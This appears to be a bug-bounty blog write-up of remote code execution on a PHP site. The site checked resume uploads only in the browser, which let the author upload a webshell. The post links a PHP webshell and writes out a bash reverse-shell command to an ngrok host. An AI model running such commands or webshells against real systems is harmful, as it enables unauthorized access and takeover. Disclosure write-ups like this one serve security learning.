 ```yaml
---
title: "Remote Code Execution via File Upload"
layout: post
date: 2021-04-07 12:00
tag:
- Remote Code Execution
- Misconfiguration
category: blog
author: naveen
description: Remote Code Execution due to Unrestricted File Upload.
---
```


## Introduction
Remote Code Execution (RCE) is a critical vulnerability that allows unauthorized individuals to access and modify a computer or server from a remote location. This capability enables attackers to run arbitrary malicious software, also known as malware, on the targeted system.

## Identifying the Target
During the reconnaissance phase, I utilized Google dorks to find a target that had a responsible disclosure program. For the purpose of this article, let's refer to the target website as abc.com. Further investigation revealed that the target company owned seven subdomains, all integrated with the parent domain abc.com and offering various functionalities.

## Exploiting PHP-Based Website
Since the target website was predominantly built using PHP, I focused on finding a vulnerability that would allow me to upload a PHP file and gain a reverse shell. Interestingly, I discovered that the website had a career page where applicants could upload their resumes in PDF format.

### Directory Brute-Forcing
To begin, I conducted a directory brute-forcing operation using the dirsearch tool. This enabled me to identify directories on the website and gain a better understanding of its structure.

![Directory Brute-Forcing](/assets/images/blogs/RCE1/1.webp)

### Discovering Uploaded Files
During my investigation, I came across an "uploads" folder that contained all the documents uploaded by individuals applying for jobs through the career page.

![Index of Uploaded Files](/assets/images/blogs/RCE1/2.webp)

### Exploiting the CV Upload Functionality
I proceeded to the career page URL (https://www.abc.com/careers.php) to examine the CV upload functionality. However, I found that the application only performed file extension validation at the front end, leaving room for potential exploitation.

![Frontend File Extension Validation](/assets/images/blogs/RCE1/3.webp)

### Uploading the PHP Webshell
Taking advantage of the lax file extension validation, I downloaded a PHP webshell and successfully uploaded it.

![PHP Webshell Upload](/assets/images/blogs/RCE1/4.webp)

### Activating the Webshell
To trigger the PHP webshell, I accessed the location where the shell was uploaded.

![Webshell Activation](/assets/images/blogs/RCE1/6.webp)

### Expanding Control with Reverse Shell
At this point, the webshell was functioning correctly. To establish a reverse shell, I either uploaded a reverse shell or used the following command in the web shell console to access the system via port forwarding using ngrok services.

### PHP Webshell Repository
For reference, you can find the PHP webshell I used in this demonstration on my GitHub repository: [GitHub Repo](https://github.com/thevillagehacker/Bug-Hunting/blob/main/Rev-shell/php_web_shell.php)

## Obtaining a Reverse Shell
To acquire a reverse shell, the following steps were performed:

1. Enabled port forwarding.
2. Listened to the forwarded port using Netcat.

![Port Forwarding Setup with ngrok](/assets/images/blogs/RCE1/7.webp)

With the completion of port forwarding setup, I executed the following command in the webshell input field:

`bash -i >& /dev/tcp/0.tcp.ngrok.io/1000 0>&1`

![Executing Reverse Connection via Bash](/assets/images/blogs/RCE1/8.webp)

As a result, a successful reverse shell connection was established.

![Successful Reverse Shell](/assets/images/blogs/RCE1/9.webp)

## Conclusion
In this article, I demonstrated how an unrestricted file upload vulnerability on a PHP-based website could lead to Remote Code Execution (RCE). By exploiting the website's lax file extension validation, I successfully uploaded a PHP webshell and obtained a reverse shell, ultimately gaining unauthorized access to the system. Thank you for reading.

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).